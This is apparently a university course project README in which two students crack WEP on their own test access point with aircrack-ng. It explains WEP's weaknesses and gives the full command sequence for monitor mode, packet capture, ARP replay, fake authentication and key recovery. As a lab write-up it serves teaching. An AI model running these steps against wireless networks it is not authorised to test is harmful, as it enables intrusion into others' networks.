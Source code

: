 ![logo uit](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/uit-logo.png)

# Project : Cracking WEP

Student 1: **17520771** – Lê Thị Huyền My

Student 2: **17521104** – Lê Thị Huyền Thư

Class: NT330.K21.**ANTN**

Lecturer: Lê Kim Hùng

Courses: Wireless Security

[I.Introduce](#i-introduce)

1. [Wired Equivalent Privacy](#1-wired-equivalent-privacy-wep)

2. [WEP Issues](#2-wep-issues)

[II.Hardware](#ii-hardware)

[III.Cracking WEP](#iii-cracking-wep)

1. [Aircrack-ng](#1-aircrack-ng)

    - [Step 1: Set up wifi modem (low password)](#step-1-set-up-wifi-modem-low-password)

    - [Step 2: Run monitor mode](#step-2-run-monitor-mode)

    - [Step 3: Capture wireless packet](#step-3-capture-wireless-packet)

    - [Step 4: Cracking WEP](#step-4-cracking-wep)

    - [Step 5: Set up wifi modem (advance password)](#step-5-set-up-wifi-modem-advance-password)

# I. Introduce

## 1. Wired Equivalent Privacy (WEP)

- WEP is an IEEE 802.11 wireless protocol which provides security algorithms for data confidentiality during wireless transmissions
- WEP uses 24-bit initalization vector (IV) to form stream cipher RC4 for confidentiality and the CRC-32 checksum for intergrity of wireless transmission.

## 2. WEP Issues

- The IV is a 24-bit field is too small and is sent in the cleartext portion of a message
- Identical key streams are produced with the reuse of the same IP for data protection, as the IV is short key streams are repeated within short time
- Lack of centralized key management makes it difficult to change the WEP keys with any regularity
- When there is IV collision, it becomes possible to reconstruct the RC4 keystream based in the IV and the decrypted payload of the packet
- IV is a part of the RC4 encryption key, leads to a analytical attack that recovers the key after intercepting and analyzing a relatively small amount of traffic
- Use of RC4 was designed to be a one-time cipher and not intended for multiples message use
- No defined method for encryption key distribution
- Wirless adapters from the same vendor may all generate the same IV sequence. This enables attackers to determine the key stream and decrypt the ciphertext
- Associate and disassociate messages are not authenticated
- WEP does not provide cryptographic integrity protection. By capturing two packets an attacker can flip a bit in the encrypted stream and modify the checksum so that the paket is accepted
- WEP is based on a password, prone to password cracking attacks
- An attacker can construct a decryption table of the reconstructed key stream and can use it to decrypt the WEP packets in real-time

# II. Hardware

- OS: Kali Linux 2020.1b amb64 in VMware Workstation 15
- AP: Tp-link TL-WN722N (installed drive Rtl8188eus)
- Core: 4 core
- RAM: 2GB
- SCSI: 80GB

# III. Cracking WEP

## 1. Aircrack-ng

### Step 1: Set up wifi modem (low password)

SSID: LETHIHUYEN \*; 128-bit key; low password: 1234567890123

![set up AP with low password](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/set-up-AP-low-pass.png)

### Step 2: Run monitor mode

> #airmon-ng start wlan0

Use the *iwconfig* command to check

![start mode monitor](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/start-mode-monitor.png)

### Step 3: Capture wireless packet

> #airodump-ng wlan0

Airodump-ng provides basic information cables such as: BSSID, beacons, data, channel, maximu speed, encryption algorithm, cipher detected, authentication protocol, ESSID

![ariodump-ng collect base information](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/airodump-ng-collect-information.png)

We need lock the wireless card on the same channel as the AP with the following command: # iwconfig wlan0mon channel 1

The basic injection test provides additional valuable information as well

> #aireplay-ng -9 -e LETHIHUYEN\* -a 72:F4:C2:D1:75:08 wlan0
>
>> -9 means injection test
>>
>> -e LETHIHUYEN\* is the network name (SSID)
>>
>> -a 72:F4:C2:D1:75:08 is MAC address of the access point (BSSID)
>>
>> -wlan0 is the interface name

![injection test](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/injection-test.png)

Capture wireless packet:

> #airodump-ng –bssid 72:F4:C2:D1:75:08 -c 1 -w WEPcrack wlan0
>
>> --bssid is MAC address of the access point
>>
>> -c 1 is AP channel
>>
>> -w WEPcrack: export to WEP crack file

![capture packet](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/capture-file-wepcrack.png)

Generate traffic:

> #aireplay-ng -3 -b 72:F4:C2:D1:75:08 -h E0:62:67:49:0D:74 wlan0
>
>> -3 means standard arp request replay
>>
>> -b 72:F4:C2:D1:75:08 is the access point MAC address
>>
>> -h E0:62:67:49:0D:74 is the source MAC address

![generate traffic](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/generate-traffic-1.png)

> #aireplay-ng -1 0 -e LETHIHUYEN\* -a 72:F4:C2:D1:75:08 -h E0:62:67:49:0D:7A wlan0
>
>> -1 means fake authentication
>>
>> 0 reassociation timing in seconds

![generate traffic](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/generate-traffic-2.png)

### Step 4: Cracking WEP

Use the command #aircrack-ng WEPcrack-01.cap to analyze IVs in the file WEPcrack-01.cap. Aircrack-ng can recover the WEP key once enough encrypted packets have been captured.

> Password: 1234567890123

![find low password in WEPcrack](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/find-low-pass.png)

### Step 5: Set up wifi modem (advance password)

Password: LTH\*=.=@uit10

![set up AP with advance passwork](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/set-up-AP-advance-pass.png)

The number of IVs collected is not enough for analysis, there will be a failure message showing the number of IVs needed.

![fail to find password](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/fail-to-get-pass.png)

We got the password

![find advance password](https://raw.githubusercontent.com/Huy3nMy/Cracking_WEP/master/image/find-advance-pass.png)
